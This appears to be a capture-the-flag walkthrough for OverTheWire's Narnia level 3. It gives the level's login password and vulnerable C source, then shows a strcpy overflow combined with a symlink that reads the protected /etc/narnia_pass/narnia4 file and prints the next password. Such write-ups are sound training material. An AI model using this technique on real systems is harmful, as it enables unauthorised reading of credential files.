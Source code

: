 # narnia 3

    # ssh narnia3@narnia.labs.overthewire.org
    password: vaequeezee

    # cat /games/narnia/narnia3.c

    #include <stdio.h>
    #include <sys/types.h>
    #include <sys/stat.h>
    #include <fcntl.h>
    #include <unistd.h>
    #include <stdlib.h>
    #include <string.h> 

    int main(int argc, char **argv)
    {
        int  ifd,  ofd;
        char ofile[16] = "/dev/null";
        char ifile[32];
        char buf[32];

        if(argc != 2){
            printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
            exit(-1);
        }

        /* open files */
        strcpy(ifile, argv[1]);
        if((ofd = open(ofile,O_RDWR)) < 0 ){
            printf("error opening %s\n", ofile);
            exit(-1);
        }
        if((ifd = open(ifile, O_RDONLY)) < 0 ){
            printf("error opening %s\n", ifile);
            exit(-1);
        }
 
        /* copy from file1 to file2 */
        read(ifd, buf, sizeof(buf)-1);
        write(ofd,buf, sizeof(buf)-1);
        printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);

        /* close 'em */
        close(ifd);
        close(ofd);

        exit(1);
    }

    # mkdir -p /tmp/pass/narnia3---------------/tmp
    # ln -s /etc/narnia_pass/narnia4 /tmp/pass/narnia3---------------/tmp/n4ps
    # touch /tmp/n4ps
    # /games/narnia/narnia3 /tmp/pass/narnia3---------------/tmp/n4ps
    copied contents of /tmp/pass/narnia3---------------/tmp/n4ps to a safer place... (/tmp/n4ps)

    # cat /tmp/n4ps
    thaenohtai

